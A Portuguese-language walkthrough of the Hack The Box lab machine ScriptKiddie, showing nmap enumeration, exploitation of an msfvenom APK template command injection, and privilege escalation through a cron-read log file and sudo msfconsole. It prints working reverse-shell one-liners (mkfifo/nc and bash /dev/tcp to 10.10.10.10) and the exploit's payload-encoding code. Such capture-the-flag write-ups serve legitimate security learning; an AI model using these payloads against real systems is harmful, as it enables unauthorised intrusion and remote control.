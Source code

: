 ```yaml
---
layout: single
title: "Walktrough: HTB ScriptKiddie"
namespace: htb-scriptkiddie
category: Walkthrough
tags:
    - HackTheBox
    - HTB Easy
    - HTB Linux
date: 2021-06-05 16:00:00
header:
    teaser: https://i.imgur.com/Egv2O1k.png
    og_image: https://i.imgur.com/Egv2O1k.png
redirect_from: /writeup/2021/06/htb-scriptkiddie
---
```


Olá pessoal!

A máquina desta semana será **ScriptKiddie**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu), criada por [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/Igno8wu.png){: .align-center}

## Enumeração

Como de costume, iniciado enumeração com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - Serviço HTTP

Ao acessar a página notado algumas ferramentas a serem utilizadas por algum script kiddie como executar um scan utilizando o `nmap`, criar um payload no `msfvenom` e buscar por exploits utilizando o `searchsploit`.

Tentei diversas formas de injeção de código neste formulário, inclusive tentando algo automatizado como por exemplo a ferramenta [commixproject/commix](https://github.com/commixproject/commix) que encontrei no Github, porém sem sucesso desta vez.

Buscando por vulnerabilidades nas ferramentas utilizadas pela página (`nmap`, `msfvenom`, `searchsploit`), acabei encontrando uma relacionada ao `msfvenom`, conforme abaixo:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Aceso inicial e User flag

Alterado arquivo python com o payload desejado `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, encontrei alguns erros durante a execução do binário `keytool`, uma vez que este tenta assinar um arquivo APK com o payload no Common Name mas, uma vez que existia um caracter `+` no conteúdo codificado em base64 na primeira iteração, precisei modificá-lo para codificá-lo novamente, gerando um payload desta vez com sucesso a ser enviado na ferramenta e utilizado na exploração da vulnerabilidade no portal:

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Abaixo podemos ver o output da criação do payload gerado, no caso o arquivo `evil.apk`

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Após gerado o arquivo APK contendo o payload, executado um request no portal com os dados sugeridos no final da execução do script anterior, apontando para o LHOST 127.0.0.1 e selecionando o tipo de payload android, que deverá ser traduzido para o payload `android/meterpreter/reverse_tcp`.

![Submiting the evil payload](https://i.imgur.com/Nvcj4BA.png){: .align-center}

Após clicar no botão **Generate**, um shell reverso foi retornado no listener inicializado previamente conforme especificado durante a criação do payload.

![reverse shell returned](https://i.imgur.com/llt85mf.png){: .align-center}

Nesta mesma sessão obtida, com as credenciais em que o aplicativo se encontrava em execução, no caso o usuário `kid`, foi possível obter a flag de usuário.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

Depois de executar o `linenum.sh`, notado que existe outro usuário na máquina, `pwn`, e que tínhamos direito de leitura em seu perfil de diretório, o qual continha um arquivo chamado `scanloosers.sh` com o seguinte conteúdo:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Uma vez que este script lê o conteúdo de um arquivo localizado no perfil do usuário `kid` (`/home/kid/logs/hackers`), editado seu conteúdo com o valor abaixo, de modo que fosse possível injetar o código necessário para a obtenção de um novo shell reverso com a conta `pwn`, que aparentemente executaria este script de forma recorrente.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

Após definir o novo listener e alterar o arquivo `hackers`, um novo shell reverso foi retornado, desta vez com a conta `pwn` :smile:

Enumerando novamente a máquina, desta vez a partir da conta deste novo usuário utilizando o `linpeas.sh`, notei que este user possuía direitos de execução do `msfconsole` de modo privilegiado.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Ao instanciar a console utilizando o `sudo`, pude executar comandos normalmente utilizando o privilégio de `root`, podendo assim ler o arquivo `/root/root.txt` e obter a flag final desta máquina

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Espero que tenham gostado!

Nos vemos no próximo post :smiley:
